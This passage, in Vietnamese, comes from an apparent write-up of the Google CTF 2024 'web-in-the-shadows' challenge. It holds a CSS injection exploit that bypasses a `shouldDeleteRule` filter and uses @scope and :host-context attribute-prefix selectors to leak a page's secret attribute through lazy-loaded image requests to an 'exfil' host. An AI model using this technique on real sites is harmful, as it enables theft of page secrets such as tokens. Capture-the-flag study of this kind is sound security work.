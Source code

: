 Từ đó ta bypass được hàm `shouldDeleteRule`, exploit sẽ như sau:

```html
<style>
.hide {
	display: none;
}

@scope(:host-context(body[secret^="0"])) {
	.exfil0 { display: block !important; }

}

@scope(:host-context(body[secret^="1"])) {
	.exfil1 { display: block !important; }

}

@scope(:host-context(body[secret^="00"])) {
	.exfil00 { display: block !important; }

}

...

</style>

<img src="http://exfil/0.jpg" class="hide exfil0" loading="lazy">
<img src="http://exfil/1.jpg" class="hide exfil1" loading="lazy">
<img src="http://exfil/00.jpg" class="hide exfil00" loading="lazy">

...

```

### Intended - Chromium bug 

Phần này chắc mình sẽ reference đến writeup của tác giả do ~mình lười~ nó cũng đã khá đầy đủ: https://github.com/google/google-ctf/tree/main/2024/quals/web-in-the-shadows
